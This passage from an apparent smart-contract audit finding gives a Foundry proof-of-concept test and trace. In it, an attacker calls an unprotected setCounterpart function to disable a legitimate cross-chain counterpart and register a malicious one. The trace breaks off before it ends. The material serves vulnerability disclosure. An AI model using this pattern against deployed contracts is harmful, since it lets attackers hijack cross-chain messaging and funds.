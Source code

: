 A test file, `ExploitTest.t.sol` (in the `test` directory) was created to demonstrate the exploit:

```solidity
function testExploit() public {
    // Assume the contract owner has set a legitimate counterpart
    vm.prank(address(this));
    vulnerableContract.setCounterpart(legitimateCounterpart, chainSelector, true);
    
    // Verify the legitimate counterpart is set
    assertTrue(vulnerableContract.isCounterpartEnabled(legitimateCounterpart, chainSelector));

    // Attacker exploits the unprotected function
    vm.prank(attacker);
    vulnerableContract.setCounterpart(legitimateCounterpart, chainSelector, false);

    // Verify the attacker was able to disable the legitimate counterpart
    assertFalse(vulnerableContract.isCounterpartEnabled(legitimateCounterpart, chainSelector));

    // Attacker sets their own malicious counterpart
    address maliciousCounterpart = address(0xBAD);
    vm.prank(attacker);
    vulnerableContract.setCounterpart(maliciousCounterpart, chainSelector, true);

    // Verify the attacker was able to add their malicious counterpart
    assertTrue(vulnerableContract.isCounterpartEnabled(maliciousCounterpart, chainSelector));
}
```

The following command was run in the terminal to run the test:

```solidity
forge test --match-test testExploit -vvvv
```

The test results were as follows:

```solidity
[PASS] testExploit() (gas: 48420)
Traces:
  [52633] ExploitTest::testExploit()
    ├─ [0] VM::prank(ExploitTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496])
    │   └─ ← [Return] 
    ├─ [22644] VulnerableContract::setCounterpart(0x000000000000000000000000000000000000cafE, 1, true)
    │   └─ ← [Stop] 
    ├─ [666] VulnerableContract::isCounterpartEnabled(0x000000000000000000000000000000000000cafE, 1) [staticcall]
    │   └─ ← [Return] true
    ├─ [0] VM::assertTrue(true) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::prank(0x000000000000000000000000000000000000bEEF)
    │   └─ ← [Return] 
    ├─ [744] VulnerableContract::setCounterpart(0x000000000000000000000000000000000000cafE, 1, false)
    │   └─ ← [Stop] 
    ├─ [666] VulnerableContract::isCounterpartEnabled(0x000000000000000000000000000000000000cafE, 1) [staticcall]
    │   └─ ← [Return] false
    ├─ [0] VM::assertFalse(false) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::prank(0x000000000000000000000000000000000000bEEF)
    │   └─ ← [Return] 
    ├─ [22644] VulnerableContract::setCounterpart(0x0000000000000000000000000000000000000Bad, 1, true)
    │   └─ ← [Stop] 
    ├─ [666] VulnerableContract::isCounterpartEnabled(0x0000000000000000000000000000000000000Bad, 1) [staticcall]
```